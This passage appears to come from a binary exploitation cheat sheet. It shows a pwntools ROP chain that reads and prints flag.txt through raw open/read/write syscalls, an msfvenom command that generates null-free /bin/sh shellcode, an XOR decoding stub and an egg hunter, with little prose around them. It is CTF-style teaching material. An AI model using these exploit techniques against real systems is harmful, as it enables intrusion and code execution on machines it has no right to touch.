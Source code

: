 ### IX. 💣 Chaining Syscalls for File Read/Write

#### 🧠 Open → Read → Write (ROP Chain)

```python
rop.raw(pop_rdi); rop.raw(next(elf.search(b"flag.txt\x00")))
rop.raw(pop_rax); rop.raw(2)  # open()
rop.raw(syscall)
rop.raw(pop_rdi); rop.raw(3)  # file descriptor
rop.raw(pop_rsi); rop.raw(bss_section)
rop.raw(pop_rdx); rop.raw(100)
rop.raw(pop_rax); rop.raw(0)  # read()
rop.raw(syscall)
rop.raw(pop_rdi); rop.raw(1)
rop.raw(pop_rsi); rop.raw(bss_section)
rop.raw(pop_rax); rop.raw(1)  # write()
rop.raw(syscall)
```

Result → Reads and prints `flag.txt` even on NX-enabled systems.

***

### X. 🧠 Shellcode Optimization & Obfuscation

#### 🔹 Null-Free Shellcode

```bash
msfvenom -p linux/x64/exec CMD="/bin/sh" -b "\x00\x0a\x0d" -f python
```

#### 🔹 Encode + Decode On Stack

```asm
; XOR-encoded shellcode
xor_loop:
    xor byte [rsi], 0xAA
    inc rsi
    loop xor_loop
    jmp rsi
```

#### 🔹 Egg Hunter (Find Shellcode in Memory)

```asm
mov eax, 0x50905090   ; egg marker
next_page:
inc ebx
cmp [ebx], eax
jne next_page
jmp ebx
```

***
